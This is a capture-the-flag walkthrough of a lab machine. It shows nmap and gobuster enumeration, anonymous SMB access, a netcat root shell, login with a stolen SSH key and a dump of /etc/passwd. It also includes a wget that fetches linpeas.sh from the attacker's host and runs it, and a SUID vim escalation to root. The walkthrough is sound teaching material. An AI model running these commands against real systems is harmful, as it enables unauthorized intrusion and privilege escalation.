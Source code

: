 


# enum

```bash
nmap lion.thm -p- 
nmap lion.thm -sV -sC 
nmap lion.thm 
```

we got 2 http servers, 80 8080
```bash 
gobuster dir -u tyler.thm:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
gobuster dir -u tyler.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

we also get some smb ports and unknown port on 6555.
lets start enum the smb to see if there are any shere's that we can enter

# SMB

```bash
smbclient -L \\\\tyler.thm\\

Enter WORKGROUP\root's password:  # NO PASSWORD JUST PRESS ENTER
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	public          Disk      
	IPC$            IPC       IPC Service (Samba 4.9.1)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	SAMBA                TYLER
```
lets check all the folders

```bash
$ root@kali:# smbclient \\\\tyler.thm\\print$

Enter WORKGROUP\root's password: 
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED

$ root@kali:~/Desktop/CTF/THM/#KOTH/tyler# smbclient \\\\tyler.thm\\IPC$

Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

$ root@kali:# smbclient \\\\tyler.thm\\public

Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 25 17:09:50 2020
  ..                                  D        0  Wed Mar 25 17:02:28 2020
  flag.txt                            N       33  Wed Mar 25 17:08:05 2020
  alert.txt                           N       50  Wed Mar 25 17:09:50 2020

		13092864 blocks of size 1024. 8517996 blocks available
smb: \> mget *
Get file flag.txt? 
Get file alert.txt? 
smb: \> 
```

so we got a flag but still we are far off...
in the alert.txt file we get some code that i think  its a rabit hole..

### port 6555

from out nmap scan we found port 6555. lets try to see what it contains

```bash
nc tyler.thm 6555
whoami
root
```

as simple as that we got outself a root shell on the machine! lets declare a king.
```bash
cd /root
ls -al

total 24
dr-xr-x---  3 root root 119 Mar 25 15:25 .
dr-xr-xr-x 17 root root 244 Mar 25 09:59 ..
-rw-r--r--  1 root root  18 Dec 28  2013 .bash_logout
-rw-r--r--  1 root root 176 Dec 28  2013 .bash_profile
-rw-r--r--  1 root root 176 Dec 28  2013 .bashrc
-rw-r--r--  1 root root 100 Dec 28  2013 .cshrc
-rw-r--r--  1 root root  33 Mar 25 15:25 flag.txt
drwx------  2 root root  61 Mar 25 15:23 .ssh
-rw-r--r--  1 root root 129 Dec 28  2013 .tcshrc
```

what? no king.txt?
so this is a "rabit hole" somewhat and this shell is seperated from the main machine somehow
I tried to enumerate and see if i can gather some info on the main machine

```bash
cd /root/.ssh
cat id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+0qTaj8PluXd4pyYNMGPLbP2ZTwh4I8hVCNnkzaL7oXXbZolVtehOCawy+DOgnccIEHUqMgEvOEEs+2u/+UpWxL7t1QSnyLvMrMKAnLXBQDzr2uJx7Ljhli8wv7nIX83EcpzU7M2bViGGpXhxOAQa6Ud7pRVXekh71qZI22I7Zg/NPPSzsMbm0CQrJ9Q+J2kugu/EK4VQsR1COMs+7ssd0gkHQ8PooLHr1+x4Trf+DRb/H02hjl1TaZ589CixlQQNUfHzLjXnnuE7qslcX8c6Oe7sv7e808M87ZokdhrifWZrfwCxaZ54D6xWYdSScYzMKqLh0HQxO3KokicRgTJx tdurden@tyler
```

ok! we got a user "tdurden" and his id_rsa files
so from a state that i thought that this is defenetly a rabithole im now sure that this is the way to go.

I'll copy id_rsa to my own machine and try to login
```bash
chmod 600 id_rsa

ssh tdurden@10.10.106.164 -i idrsa 
Last login: Mon Jul 13 05:55:42 2020 from ip-10-9-6-216.eu-west-1.compute.internal


[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
narrator:x:1002:1002::/home/narrator:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
nginx:x:997:994:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
librenms:x:996:993::/opt/librenms:/bin/bash

```
YES! we got a shell on the 'main' machine
now we can enumerate some more.
I'll try to get linpeas

```bash
cd /tmp
wget 10.9.6.216/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

we got from linpease a SUID on vim. this must be it!
lets search for SUID shell on 'GTFO bins'

https://gtfobins.github.io/

```bash
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
^[[2;2R^[]11;rgb:2929/2d2d/2e2e^Gsh-4.2# 2R11;rgb:2929/2d2d/2e2ewhoami
sh: 2R11: command not found
sh: rgb:2929/2d2d/2e2ewhoami: No such file or directory
sh-4.2# whoami
root
sh-4.2# 
```

<!---
flags:

decoy machine /root/flag.txt
main machine 
/home/user/flag.txt
/root/root.txt

smb tyler.thm/public flag.txt + alert.txt
--->